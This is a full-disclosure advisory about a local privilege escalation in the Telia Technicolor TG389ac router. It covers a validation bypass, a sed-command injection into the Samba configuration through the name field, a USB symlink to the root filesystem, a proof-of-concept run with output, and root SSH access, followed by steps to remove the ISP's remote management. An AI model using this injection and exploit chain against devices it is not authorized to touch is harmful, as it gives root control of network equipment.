

# FDEU-CVE-2020-1FC5

# Summary

Improper restricted user's input validation in Telia Technicolor TG389ac router causes local privilege escalation.

# Tech details

Telia Lithuania internet provider uses CPE (customer premise equipment) Technicolor router model TG389ac which has a restricted admin user that allows to only change some settings. Most of the advanced settings are locked down and hidden from the customer. The current firmware version is 17.1.7992 and it is known to contain vulnerabilities that allow customers to escalate privileges and unlock full access to all router's features. One of the vulnerable components called "Content sharing" allows customers to plug a USB mass storage device and share its contents using the built-in Samba server. The customer can provide a specially crafted setting using the admin's web UI that enables Samba symlink feature. Such a symlink that points to "/" will expose the router's file system with read-write access.

# Vulnerabilities

## Improper user input validation

Content sharing web administration looks like this:


When user tries to enter non-alphanumeric symbols, the error comes back:

```
Only alphanumeric, space, underscore and dash characters allowed
```


But if the user tries to change the settings without enabling Samba, the settings will get written into the config file:



However, the web UI will not allow to enable the service if the settings contain illegal symbols.

By slightly tampering the web request it is possible to bypass this verification and enable Samba with the provided malicious parameters. To modify the request simply remove the parameter `samba_filesharing=1`.

## Samba config injection

When Samba service starts it parses the parameters and uses a template file to replace placeholders and generate the runtime config smb.conf. To replace the params the following `sed` command is used in `/etc/init.d/samba`:

```
	sed -e "s#|NAME|#$name#g" \
	    -e "s#|WORKGROUP|#$workgroup#g" \
	    -e "s#|DESCRIPTION|#$description#g" \
	    -e "s#|INTERFACES|#$interfaces#g" \
	    -e "s#|CHARSET|#$charset#g" \
	    /etc/samba/smb.conf.template > /var/etc/smb.conf

```

The `sed -e` command supports multiple rules delimited by `;`. In this case it is possible to modify the rule to look like the following:

```txt
"s#|NAME|#Technicolor#g ; s#follow symlinks = no#follow symlinks = yes#g"
```

To achieve this the `$name` variable must look like:

`Technicolor#g ; s#follow symlinks = no#follow symlinks = yes`

## Privilege escalation

To exploit this vulnerability a user would need to create an EXT2 USB flash drive:

```
mkfs.ext2 /dev/sdX1
mkdir /tmp/sdX1
mount /dev/sdX1 /tmp/sdX1
cd /tmp/sdX1
touch exploit
ln -s / rootfs
cd ~
umount /tmp/sdX1
```

Plug it into the router's USB port and execute the provided PoC exploit:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5](https://github.com/full-disclosure/FDEU-CVE-2020-1FC5)

```
# python3 tg389ac_samba_exploit.py http://192.168.1.254 admin
Password: 
[*] Init SRP authentication
[*] Get CSRF token
[*] Send authentication challenge
[*] Send authentication response
[*] Renew CSRF token
[*] Submit dummy samba config
[*] Submit samba exploit
[*] Reboot the router
b'{ "success":"true" }'
[*] Done. Wait until the router boots and open the network share
Example: \\192.168.1.254 or smb://192.168.1.254
```

Samba config will be injected with the following values:

```
follow symlinks = yes
wide links = yes
security = user
guest account = root
```

After the router reboots, Samba service will start with symlinks enabled. Navigate to `\\192.168.1.254\rootfs` and replace the `etc/config/button` file with this one:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button](https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button)

Now press the WPS button and in a about 10 seconds try to login on SSH as `root:root`. Change password immediately after login.

## Removing Telia's backdoor

**WARNING. By removing the backdoor you void your warranty and dissapoint Telia**

At any time Telia can remotely connect to your router and change any setting, see your traffic, sniff your secrets. We also recommend removing all Telia's backdoors.

Connect on SSH and remove `/etc/dropbear/authorized_keys` and `/home/engineer/.ssh/authorized_keys`.

Run the following:

```
uci set cwmpd.cwmpd_config.state=0
uci commit
rm /etc/cwmp*
```

Remove the following lines from `/etc/nginx/nginx.conf`:

```
listen 8443 ssl;
listen [::]:8443 ssl;
listen 8080 tproxy;

sessioncontrol.setManagerForPort("default", "8443")
sessioncontrol.setManagerForPort("assistance", "443")
```

Remove all Telia's backdoor rules from `/etc/config/firewall`: Allow-8443-VoIP, Allow-8443-WAN, Allow-SSH-VoIP, Allow-SSH-WAN. They look like this:

```
config rule
        option name 'Allow-8443-WAN'                  
        option src 'wan'
        option proto 'tcp'
        option dest_port '8443'

```

For more advanced list of what you can do with the unlocked technicolor router, please check these links:

* [https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/](https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/)
* [https://hack-technicolor.readthedocs.io/en/latest/Unlock/](https://hack-technicolor.readthedocs.io/en/latest/Unlock/)

# Timeline

* 2020-08-13 - vulnerability found and exploit created
* 2020-08-14 - full disclosure

